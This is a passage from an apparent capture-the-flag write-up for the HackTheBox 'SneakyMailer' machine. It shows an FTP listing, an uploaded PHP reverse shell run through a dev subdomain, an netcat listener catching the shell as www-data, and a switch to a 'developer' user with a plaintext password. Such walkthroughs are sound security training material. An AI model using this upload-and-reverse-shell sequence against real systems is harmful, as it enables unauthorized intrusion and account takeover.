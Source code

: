 drwxr-xr-x    2 0        0            4096 May 26 19:52 css
drwxr-xr-x    2 0        0            4096 May 26 19:52 img
<span class="nt">-rwxr-xr-x</span>    1 0        0           13742 Jun 23 09:44 index.php
drwxr-xr-x    3 0        0            4096 May 26 19:52 js
drwxr-xr-x    2 0        0            4096 May 26 19:52 pypi
drwxr-xr-x    4 0        0            4096 May 26 19:52 scss
<span class="nt">-rwxr-xr-x</span>    1 0        0           26523 May 26 20:58 team.php
drwxr-xr-x    8 0        0            4096 May 26 19:52 vendor
226 Directory send OK.
ftp&gt;
</pre>
<blockquote>let`s try to upload reverse shell and execute it </blockquote>
<pre>ftp> put shell.php
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5492 bytes sent in 0.00 secs (59.5179 MB/s)</pre>
<blockquote>
i tried to execute it at http://sneakycorp.htb/shell.php but did work  
so i checked if dev is subdomain</blockquote>
<img src="https://i.ibb.co/MVDyJ30/sub.png" alt="sub" border="0">
  
<blockquote>Lol, it is a subdomain that was easy. You can use a lot of tools to get subdomain and you can be lucky 😂
let`s upload the shell and execute it from http://dev.sneakycorp.htb/shell.php   
</blockquote>
<h2>Shell</h2>
<pre>➜  m19o rlwrap nc -nlvp 1234 
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.197.
Ncat: Connection from 10.10.10.197:41628.
Linux sneakymailer 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64 GNU/Linux
 00:10:18 up 26 min,  0 users,  load average: 0.04, 0.10, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (715): Inappropriate ioctl for device
bash: no job control in this shell
www-data@sneakymailer:/$</pre>
<blockquote>It worked and we got in as www-data
let`s us SU to switch to developer user we found 
</blockquote>
<pre>
www-data@sneakymailer:/$ su developer
su developer
Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C

developer@sneakymailer:/$
</pre>
<blockquote>i found 2 users</blockquote>  
<pre>developer@sneakymailer:/home$ ls
ls
low  vmail</pre>
  